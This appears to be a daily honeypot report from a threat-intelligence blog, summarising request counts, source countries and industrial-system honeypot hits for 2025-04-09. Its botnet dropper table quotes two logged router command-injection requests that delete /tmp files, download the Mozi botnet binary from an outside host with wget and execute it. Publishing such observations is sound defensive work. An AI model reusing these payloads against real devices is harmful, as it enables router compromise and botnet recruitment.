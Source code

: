 ```yaml
---
title: "Report: 2025-04-09 "
date: 2025-04-09
desciption: "Report: 2025-04-09" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-09 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 373 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 3370 requests were recorded during the day, originating from 2 different countries, with a peak of 571 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |
| FR               | Germany            |
| MY               |                    |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                      |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.164.177.12   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.164.177.12:11923/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 103.208.231.253 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                        |
